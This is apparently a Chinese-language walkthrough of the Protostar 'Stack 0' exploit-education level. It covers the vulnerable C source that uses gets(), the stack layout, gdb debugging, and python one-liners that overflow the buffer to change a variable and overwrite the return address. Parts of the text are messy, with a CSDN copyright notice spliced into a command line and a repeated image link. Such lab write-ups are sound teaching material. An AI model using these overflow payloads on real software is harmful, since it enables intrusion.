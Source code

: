 # Stack 0

## （一） 题目：

This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid    out, and that modifying outside of the allocated memory can modify program execution.

This level is at /opt/protostar/bin/stack0

source code:

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

int main\(int argc, char \*\*argv\)

{

volatile int modified;

char buffer\[64\];

modified = 0;

gets\(buffer\);

if\(modified != 0\) {

```
  printf\("you have changed the 'modified' variable\n"\);
```

} else {

```
  printf\("Try again?\n"\);
```

}

}

## （二）解题过程：

```
 This problem is about how to layout the stack in memory
```

```
 这是典型的栈溢出攻击。知识点在于缓冲区溢出时候，变量在内存中的布局。
```

![](/png/01.png)

1）手工测试

思路，通过从小到大的输入得出栈帧的布局，理清如何修改边界值从而修改程序的执行流程。

当modified变量=0时候，输出try again

modified=1,输出 变量modified修改。

当buffer输入aaaa时候，输出try again，modified=0

输入边界64个a时候输出try again，modified=0

输入buffer为65时候

![](/png/02.png)

可以通过修改buffer的长度来修改modified变量的值。

这就是典型的缓冲区溢出。栈布局如下：

栈顶

buffer\[64\] 第二个变量

modified    第一个变量

上一个栈帧ebp

返回地址

```
argc

  argv
```

栈底

```
    程序中包含两个变量，一个modified，被声明为volatile，这个标识符表示每次使用modified变量都从内存中读取值，而不是使用cache中保存的值；还有一个变量buffer，占用64个字节的空间。程序使用gets函数读取用户输入，并保存到buffer中，之后根据modified变量的值决定if语句的执行逻辑。
```

按照正常情况，由于modified使用等于0，因此程序应该使用输出"Try again?"，但是由于在获取用户输入时没有判断用户输入数据的大小，因此用户可能会输入大于64个字节的内容，造成栈溢出。那么我们怎么通过这个栈溢出漏洞修改modified的值，从而修改if语句的执行逻辑呢？

用反汇编工具跟踪调试如下：

gdb ./stack0

在程序的第十三行下断点，跟踪调试

b 13![](/png/03.png)

此时栈帧的布局如上：

esp 0xbffffcc0

esp+1c buff\[0-3\]  buff起始地址

esp+5c modified=0  modified地址

ebp   0xbffffd28

修改流程，可以尝试填充buff，覆盖modified值。计算一下两者相差多少个字节。相差0x40个，也就是64个，所以我们试着填充65个。查看此时的内存布局

![](/png/04.png)

esp+5c处的modified值变为了非0，程序的分支流程被修改，输出也变化了。 如果我们继续输入超过64个字节的内容，就会覆盖modified变量的值，但是要注意不要超过变量modified的位置，否则会覆盖其他关键信息\(例如返回地址\)，使程序崩溃。

2）利用工具自动化实现

1） 用python脚本探测漏洞触发点。![](/png/05.ppng.PNG) 因为要在程序执行过程中处理用户输入的问题，所以使用subprocess模块。

![](/png/06.png)

覆盖成1或者其他非0值



    $ python -c 'print "A"\*0x40+"\x01\x00\x00\x00"' \| ./stack0

    you have changed the 'modified' variable

    $ python -c 'print "A"\*0x40+"\x01"' \| ./stack0

    you have changed the 'modified' variable



覆盖返回地址

发现buffer距离返回地址是0x54,后面改为要覆盖的地址即可   ，返回地址处0xb7eadcXX

 $ python -c 'print "A"\*0x50+"\x19\x84\x04\x08"' \| ./stack0    you have changed the 'modified' variable    you have changed the 'modified' variable    Segmentation fault                                                                                                                                $ python -c 'print "\x00"\*0x50+"\x19\x84\x04\x08"' \| ./stack0    Try again?    you have changed the 'modified' variable    Segmentation fault————————————————版权声明：本文为CSDN博主「giantbranch」的原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接及本声明。原文链接：https://blog.csdn.net/u012763794/article/details/76614927![](/png/07.png)

![](/png/07.png)

![](/png/07.png)

![](/png/07.png)

![](/png/07.png)

![](/png/07.png)

![](/png/07.png)

![](/png/07.png)

![](/png/07.png)

![](/png/07.png)

![](/png/07.png)

![](/png/07.png)

![](/png/07.png)

![](/png/07.png)

![](/png/07.png)



Ref：

[https://exploit.education/phoenix/stack-zero/](https://exploit.education/phoenix/stack-zero/)

[https://blog.csdn.net/guilanl/article/details/61916375](https://blog.csdn.net/guilanl/article/details/61916375)

